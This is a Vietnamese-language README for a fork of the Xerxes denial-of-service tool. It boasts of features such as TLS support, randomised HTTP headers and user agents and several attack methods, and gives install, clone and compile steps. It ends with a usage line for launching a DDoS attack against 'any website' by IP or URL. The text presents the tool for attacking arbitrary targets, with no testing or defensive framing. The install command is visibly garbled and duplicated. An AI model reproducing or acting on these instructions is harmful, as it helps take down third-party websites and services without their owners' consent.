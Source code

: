 # XERXES
XERXES công cụ DoS mạnh mẽ nhất của zanyarjamal

# Công cụ dos Xerxes được cải tiến với nhiều tính năng như:
- [x] Hỗ trợ TLS
- [x] Tự random HTTP header
- [x] Tự random Useragent
- [x] Hỗ trợ đa xử lý
- [x] Nhiều phương thức tấn công
v.v …

# Cách cài đặt
Cài đặt các thư viện cần thiết cho Xerxes
```
sudo apt-get -y install build-essential cmake libssl-dev pkgconfsudo apt-get -y install build-essential cmake libssl-dev pkgconf
```
Tải xerxes về máy tính
```
#Git clone https://github.com/ngrock90/xerxes.git
```
Sau đó di chuyển đến thư mục vừa cài đặt
```
cd xerxes
```
Tiếp theo, bạn nên biên dịch với trình biên dịch GNU GCC
```
gcc xerxes.c -o xerxes
```
# Cách sử dụng
Sử dụng lệnh dưới đây để DDOS vào Website bất kỳ
```
./xerxes <IP/URL> 80
```
